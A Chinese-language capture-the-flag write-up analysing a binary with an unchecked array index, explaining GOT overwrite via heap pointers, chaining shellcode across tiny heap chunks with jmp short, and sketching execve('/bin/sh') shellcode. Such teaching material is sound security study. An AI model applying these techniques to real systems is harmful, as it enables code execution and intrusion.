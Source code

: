    开启的保护：

    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
出问题的源码，不知为什么我的伪代码跟答案不一致：
```c
void sub_E30()
{
  __int64 savedregs; // [rsp+10h] [rbp+0h]

  while ( 1 )
  {
    sub_C56();
    printf("your choice>> ");
    sub_B91();
    switch((unsigned int)&savedregs)
    {
      case 1u:
          sub_CA5();
          break;
      case 2u:
          sub_DC1();
          break;
      case 3u:
          sub_DD4();
          break;
       case  4u:
          sub_DE7();
          break;
        case 5u:
            exit(0);
            return ;
        default:
            puts("invalid choice");
            break;
    }
}
```

在sub_CA5()函数中，存在：

printf("index:");
      v1 = sub_B91();           //输入，可理解为scanf
      printf("size:");
      result = sub_B91();      //输入，可理解为scanf
      v2 = result;
      if ( result >= 0 && result <= 8 )
      {
        qword_2020A0[v1] = malloc(result);  //result最高为8，但是v1的范围没有限制
        if ( !qword_2020A0[v1] )
        {
          puts("malloc error");
          exit(0);
        }

1、创建的堆空间大小最多为7字节
2、保存堆指针的数组下标可以越界

 
数组下标可以越界，可以把任意的地方的8字节数据写成新建的堆的地址指针，
那么，通过数组越界，我们可以把一些函数的GOT表内容修改为堆指针，由于程序NX保护是关闭的，那么堆栈里的数据也可以当成指令执行。那么我们在堆里布置shellcode即可。

但是堆的大小最大为7个字节，我们的shellcode最少也要十几字节，因此，我们把shellcode分开，存储到多个堆里，然后在每个堆的最后2字节空间，填上jmp short xxxx指令，让它跳转到下一个堆里去执行代码。Jmpshort xxxx指令占用2字节，并且，这条指令使用的是相对当前代码位置寻址，为了发现规律，我们找几个现成的指令看看

.text:0000000000000E8A ; ---------------------------------------------------------------------------
.text:0000000000000E8A                 mov     eax, 0
.text:0000000000000E8F                 call    sub_CA5
.text:0000000000000E94                 jmp     short loc_ED1                                            //查看jmp short的跳转规律
.text:0000000000000E96 ; ---------------------------------------------------------------------------
.text:0000000000000E96                 mov     eax, 0
.text:0000000000000E9B                 call    sub_DC1
.text:0000000000000EA0                 jmp     short loc_ED1                                          //查看jmp short的跳转规律
.text:0000000000000EA2 ; ---------------------------------------------------------------------------
.text:0000000000000EA2                 mov     eax, 0
.text:0000000000000EA7                 call    sub_DD4
.text:0000000000000EAC                 jmp     short loc_ED1                                         //查看jmp short的跳转规律
.text:0000000000000EAE ; ---------------------------------------------------------------------------

Hex-View区：
0000000000000E94  EB 3B             jmp short loc_ED1

0000000000000EA0  EB 2F             jmp short loc_ED1

0000000000000EAC  EB 23             jmp short loc_ED1

计算：
94+3B = CF  //跳转的地址是ECF，而非ED1

A0+2F = CF  //跳转的地址是ECF，而非ED1

AC+23 = CF //跳转的地址是ECF，而非ED1

但是我们发现ED1-2=ECF，因此得出规律：jmp short xxx中的xxx计算公式为xxx = 目标地址-当前地址-2。


堆的数据结构：

/*
  This struct declaration is misleading (but accurate and necessary).
  It declares a "view" into memory allowing access to necessary
  fields at known offsets from a given base. See explanation below.
*/
struct malloc_chunk {
//INTERNAL_SIZE_T被定义为size_t,在32位系统上是32位无符号整数(4bytes)，在64位系统上是64位无符号整数(8bytes)
  INTERNAL_SIZE_T      prev_size;  /*  前一个chunk空闲则记录了前一个chunk的大小，如果前一个chunk不空闲，那么这里存储的就是前一个chunk最后的数据. */
  INTERNAL_SIZE_T      size;       /* 当前chunk的大小，chunk的大小必须是2*SIZE_SZ的整数倍。32位系统下最小的chunk是16个字节大小，64位系统下最小的chunk是24个字节或32个字节大小。 */

  struct malloc_chunk* fd;         /* chunk被分配后从fd开始是用户的数据*/
  struct malloc_chunk* bk;

  /* Only used for large blocks: pointer to next larger size.  */
  struct malloc_chunk* fd_nextsize; /*只有在chunk空闲时才是用，只用于large chunk */
  struct malloc_chunk* bk_nextsize;
};


paylaod中chunk示意图：

![avatar](/home/dudu/图片/chunk_payload.PNG)

Jmp short后面的next值的计算:

next = (8 + 8 + 8 + 1 + 2 - 2) = 0x19

构造shellcode:



    ;64位系统调用  
    mov rdi,xxxx;/bin/sh字符串的地址  
    mov rax,59;execve的系统调用号  
    mov rsi,0;  
    mov rdx,0  
    syscall  

